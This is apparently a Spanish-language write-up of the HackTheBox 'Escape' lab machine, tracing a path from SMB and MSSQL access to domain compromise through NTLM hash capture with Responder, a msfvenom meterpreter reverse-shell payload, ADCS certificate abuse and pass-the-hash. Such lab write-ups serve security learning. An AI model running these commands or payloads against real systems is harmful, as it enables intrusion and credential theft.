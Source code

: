 # EscapeWriteUp
Writeup de Escape HTB

Empezamos con un escaneo de nmap

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.202 -Pn -p-
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225091888-805b94d6-57ee-498d-af53-2c3c3c00bea3.png)


Vemos smb en el 445, mssql en el 1433 y winrm en el 5985

Primero que nada entramos de forma anónima a smb 

![imagen](https://user-images.githubusercontent.com/108554878/225092170-f200660f-a15e-40b8-ae23-c93d50935bc2.png)

Vemos varias carpetas

Entremos a public

![imagen](https://user-images.githubusercontent.com/108554878/225092256-ca7e5137-d942-40ca-a97e-8a878a277018.png)

Vemos un pdf

Dentro del pdf encontramos unas credenciales

![imagen](https://user-images.githubusercontent.com/108554878/225092313-54426388-d5f5-476b-a821-4dc22c83dfdf.png)

Con esto nos logueamos en mssql

![imagen](https://user-images.githubusercontent.com/108554878/225092412-f47b7273-20a7-4d2c-80dd-b48e7ecb6589.png)

Estando aqui leemos que se puede hacer en mssql para entrar a la máquina

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Después de intentar varias cosas que vienen en la documentación ponemos

~~~
exec master.dbo.xp_dirtree '\\{Mi IP}\any\thing'
~~~

Seteamos con responder algo que consiga las credenciales NTLMv2

~~~
sudo responder -I tun0 -w 
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225092571-457a1cea-ac33-4e26-84c3-91273dd7b1c1.png)

Ahora crackeamos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225092636-eb65cfa3-2f09-43ec-81e0-e86baa09556c.png)

Encontramos las credenciales y entramos con evilwinrm

![HTB](https://user-images.githubusercontent.com/108554878/225093047-66a8ac6e-ca60-4b73-aa5e-4236317578dd.png)

Entramos con evil-winrm

Vemos que hay un errorlog .BAK

Aquí encontramos las credenciales de Ryan.Cooper

![HTB](https://user-images.githubusercontent.com/108554878/225093457-d8d46db7-36ee-45a0-8b0d-e3299bb386db.png)

Con esto encontramos el user entrando desde evil-winrm

![HTB](https://user-images.githubusercontent.com/108554878/225094140-60254216-ca82-495b-aa7d-885bcf8614ad.png)

Cambio la sesión a meterpreter 

~~~
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP de mi máquina} LPORT=1232 -f exe > xddd.exe 
~~~

Ejecutamos exploit/multi/handler y ejecutamos el .exe en la máquina

![imagen](https://user-images.githubusercontent.com/108554878/225094868-00bd831a-9d47-4a01-b2ec-85f9fa683d74.png)

Vemos los privilegios que tenemos

Calamos el exploit suggester y winpeas y no se encuentra nada interesante, después leyendo un poco encontré que se puede escalar privilegios con el uso de Active Directory Certificate Services

https://posts.specterops.io/certified-pre-owned-d95910965cd2
https://www.youtube.com/watch?v=ejmAIgxFRgM

Intentamos user certify.exe recomendado para esto, encontramos que es vulnerable

~~~
.\Certify.exe find /vulnerable
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225095523-726d8e18-c2b8-4be6-ba06-48c637752fa4.png)


Al intentar aprovecharnos de esto da un error inesperado así que usamos certipy-ad que funciona también

~~~
certipy-ad find -vulnerable -stdout -u Ryan.Cooper@sequel.htb -p {Contraseña} -dc-ip 10.10.11.202
~~~

También nos encuentra la vulnerabilidad

Obtenemos el certificado .pfx

![imagen](https://user-images.githubusercontent.com/108554878/225095856-1153251a-5586-4bda-b75b-2514ded962a5.png)

Y con esto conseguimos el hash NTLM de la máquina, con esto no necesitamos tocar lsass, ni escalar para conseguirlo

![imagen](https://user-images.githubusercontent.com/108554878/225096019-cd865bf3-b1cc-4c24-b932-4d48fb15fc8d.png)

Nos da un error, investigando es porque tenemos el tiempo desconfigurado

![imagen](https://user-images.githubusercontent.com/108554878/225096143-6cd5d309-6fdb-4678-9dd7-bb721b5c8bd5.png)

Cambiamos el tiempo

Conseguimos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225096267-eba487d6-1b64-4845-8f26-e685b15a76c9.png)


Hacemos un ataque pass-the-hash

![HTB](https://user-images.githubusercontent.com/108554878/225096498-bfd3bfeb-9b47-446e-a2b8-a5d9160bfebe.png)

Y Listo!

